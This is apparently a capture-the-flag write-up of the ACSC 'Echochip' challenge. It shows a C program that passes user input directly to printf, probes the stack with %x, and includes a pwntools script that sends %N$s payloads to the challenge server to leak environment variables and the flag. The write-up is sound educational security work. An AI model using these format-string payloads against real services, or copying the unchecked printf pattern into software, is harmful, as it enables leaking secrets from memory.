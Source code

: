 ```yaml
---
author: Aryt3
pubDatetime: 2025-05-01
title: ACSC Echochip Writeup
slug: acsc-echochip
featured: true
draft: false
tags:
  - ACSC
  - pwn
description:
  A Writeup and Walkthrough of the ACSC Echochip challenge.
---
```



# Echochip

## Description
```
Soundboards are so 2076, get the new Kiroshi Echochip to add a cool echo, that will help establish your authority.
```

## Provided Files
```
- Echochip.zip
```

## Writeup

Starting off, I inspected the provided `c` program. <br/>
```c
// gcc Echochip.c -Wl,-z,relro,-z,now -Wall -o Echochip

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MIN(x, y) (x < y ? x : y)
char flag[0x100] = "dach2025{NOT_THE_FLAG}";

void setup(void) {
  char *flag_env = getenv("FLAG");
  if (flag_env == NULL)
    return;

  strncpy(flag, flag_env, sizeof(flag) - 1);
}

int main(int argc, char *argv[]) {
  char echo[0x200] = {0};
  char input[0x100] = {0};
  char *input_start, *echo_start;
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setup();
  printf("Please input the message to echo: \n");
  fgets(input, sizeof(input), stdin);

  input_start = input;
  echo_start = echo;
  for (int i = 0; i < sizeof(input) && input[i] != 0; ++i) {
    if (input[i] == ' ' || input[i] == '\n') {
      int echo_len = MIN(3, &input[i] - input_start);
      memcpy(echo_start, input_start, &input[i] - input_start);
      echo_start += &input[i] - input_start;
      memcpy(echo_start, &input[i - echo_len], echo_len + 1);
      echo_start += echo_len + 1;
      input_start = &input[i + 1];
    }
  }

  printf(echo);
}
```

The thing that instantly caught my eye was the `printf` function which actually takes our direct input without any checks. <br/>
Knowing this, we can try for a `string formatting vulnerability`. <br/>
```sh
$ ./share/Echochip 
Please input the message to echo: 
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
a78252e.e1ae3080.a78252e.0.0.e1ae34b8.28.0.27.e1ae30a7.e1ae31aa.252e7825.2e78252e.78252e78
```

As we can see in the output, we are leaking data from the stack. <br/>
The thing that interests me the most is that the flag is being read from an `env-var`. <br/>
`char *flag_env = getenv("FLAG");` this indicates that the string should be loaded into memory at some point. <br/>

Knowing this, we can actually check for strings by leaking the stack `position by position` using a `string-formatter`. <br/>
```sh
$ python3 bruteforce.py
-----
147  
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin7$s

148  
HOSTNAME=a8415c1597e18$s

149  
FLAG=dach2025{NOT_THE_FLAG}9$s

150  
HOME=/home/ctf0$s

151  
SOCAT_PID=19811$s

152  
SOCAT_PPID=12$s

153  
SOCAT_VERSION=1.7.4.13$s

154  
SOCAT_SOCKADDR=172.19.0.24$s

155  
SOCAT_SOCKPORT=50005$s

156  
SOCAT_PEERADDR=172.19.0.16$s

157  
SOCAT_PEERPORT=562547$s
-----
``` 

There we can see all `environment-variables` as well as the `test-flag`. <br/>
These are loaded into the memory of the binary and that's the reason we can leak them. <br/>
With all this information we can now exploit it on the server and get the actual flag. <br/>

```py
from pwn import *

context.log_level = 'error'

for i in range(145,160):
    payload = f"%{i}$s".encode()

    p = remote('port.dyn.acsc.land', 34241)
    p.sendlineafter(b'Please input the message to echo:', payload)

    res = p.recvall().decode('latin-1')

    if 'dach' in res:
        print(res)

    p.close()
```

Executing the script reveals the flag which concludes this writeup. <br/>
```sh
$ python3 offset.py 
[*] '/home/aryt3/Hacking/CTFs/acsc_qualy_2025/Echochip/share/Echochip'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
  
FLAG=dach2025{d0es_th1s_m4ke_my_v01ce_s0und_deep3r_rimycu6vrt3m0nne}2$s